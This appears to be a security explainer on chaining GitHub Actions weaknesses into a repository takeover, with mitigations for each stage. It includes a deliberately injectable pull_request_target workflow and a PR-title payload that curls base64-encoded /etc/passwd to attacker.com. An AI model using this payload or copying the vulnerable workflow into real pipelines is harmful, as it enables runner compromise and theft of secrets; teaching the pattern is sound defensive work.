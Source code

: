 # Advanced Attack Scenario 1: Chaining Vulnerabilities for a Full Repository Takeover

This scenario demonstrates how an attacker can chain multiple vulnerabilities together to achieve a full repository takeover. The attack starts with a command injection vulnerability in a workflow that is triggered on `pull_request_target`, and ends with the attacker gaining full control of the repository.

## Stage 1: Initial Access

**Vulnerability:** Command injection in a workflow that is triggered on `pull_request_target`.

**Vulnerable Code:**

```yaml
name: Vulnerable Workflow
on:
  pull_request_target:
    types: [opened]
jobs:
  vulnerable_job:
    runs-on: ubuntu-latest
    steps:
      - name: Vulnerable Step
        run: |
          echo "Running command with PR title: ${{ github.event.pull_request.title }}"
```

**Malicious Payload:**

An attacker can create a pull request with the title:

```
'; curl http://attacker.com/$(cat /etc/passwd | base64)
```

**Expected Outcome:**

The workflow will execute the `curl` command, sending the base64-encoded contents of the `/etc/passwd` file to the attacker's server.

## Stage 2: Privilege Escalation

**Vulnerability:** The self-hosted runner is not properly isolated.

**Technique:**

Once the attacker has gained initial access to the runner, they can use a variety of techniques to escalate their privileges. For example, they can use a kernel exploit to gain root access to the host machine.

**Expected Outcome:**

The attacker gains root access to the host machine.

## Stage 3: Lateral Movement

**Vulnerability:** The compromised runner is part of a runner group with access to other repositories.

**Technique:**

Once the attacker has gained root access to the host machine, they can use the runner's credentials to pivot to other runners in the same runner group. This can give them access to other repositories and secrets.

**Expected Outcome:**

The attacker gains access to other repositories and secrets.

## Stage 4: Secret Exfiltration

**Vulnerability:** Secrets are not properly protected.

**Technique:**

Once the attacker has gained access to other repositories and secrets, they can exfiltrate them to their own server. For example, they can use the `curl` command to send the secrets to their server.

**Expected Outcome:**

The attacker exfiltrates the secrets to their own server.

## Stage 5: Persistence

**Vulnerability:** The attacker is able to establish persistence on the compromised runner.

**Technique:**

Once the attacker has exfiltrated the secrets, they can establish persistence on the compromised runner. For example, they can create a new user account with a password that they control.

**Expected Outcome:**

The attacker establishes persistence on the compromised runner.

## Mitigation

*   **Stage 1:** Use environment variables to pass untrusted input to your workflows.
*   **Stage 2:** Use a container to isolate your self-hosted runners from the host machine.
*   **Stage 3:** Use separate runner groups for each repository.
*   **Stage 4:** Use a secrets management solution to protect your secrets.
*   **Stage 5:** Use a host-based intrusion detection system (HIDS) to monitor for suspicious activity on your self-hosted runners.
